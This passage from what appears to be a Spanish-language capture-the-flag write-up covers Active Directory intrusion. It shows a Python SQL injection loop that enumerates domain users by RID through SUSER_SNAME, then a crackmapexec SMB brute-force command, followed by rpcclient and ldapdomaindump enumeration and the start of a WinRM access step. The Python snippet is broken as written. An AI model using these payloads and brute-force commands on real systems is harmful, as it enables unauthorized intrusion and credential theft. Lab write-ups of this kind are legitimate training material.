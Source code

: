 ```python
sid = "0x0000000000000000000000000"
if __name__ == "__main__":
	
	for i in range(1100, 1200)

		rid = getRID(x)
		sqli = "test' union select 1,(select SUSER_SNAME(%s%s)),3,4,5-- -" % (sid,rid)
		
		sqli_mod = getUnicode(sqli)
		
		response_json = makeRequests(sqli_mod)
		print(response_json)
		time.sleep(1)
```

--------
#### SMB Brute Force Attack (Crackmapexec) 

Ahora que tenemos nuevos usuarios, podemos intentar intentar el **brute force** que habiamos intentado con **cracmapexec** haber si obtenemos nuevas credenciales validas a nivel de dominio:
```
# crackmapexec smb ip -u list_user.txt -p list_passwords --continue-on-success
```

Y obtenemos una credencial valida a nivel de dominio. 

--------
#### Enumerating AD existing users (rpcclient/rpcenum)  

Ahora  que tenemos credenciales validas, podemos enumerar el sistema Podemos tirar de **rpcclient** o de **rpcenum** ( Herramienta de s4vitar ). 

**rpcclient**:
```
# rpcclient -U 'usuario%contraseña' <ip>
```

- enumdomusers -> Lista los usuarios del sistema.
- enumdomgroups -> Lista los grupos del sistema.
- querygroupmem `rid-group` -> Lista el RID de los usuarios administradores del dominio.
- queryuser `rid` -> Muestra la información del usuario.

También podemos enumerar el sistemas por **ldap**. Esta nos deja multiples archivos que posteriormente podemos procesar a través de un servidor web que abrimos en local.

**ldapdomaindump**:
```
# ldapdomaindump -u '<DOMAIN\usuario>' -p '<password>' <ip>
```

-----------
#### Abusing Remote Management User group 

En la enumeración previa del sistema, encontramos que el usuario que tenemos pertenece al grupo **Remote Management Users**. Esto lo que nos permite es conectarnos a la maquina a través de **WinRM**. 
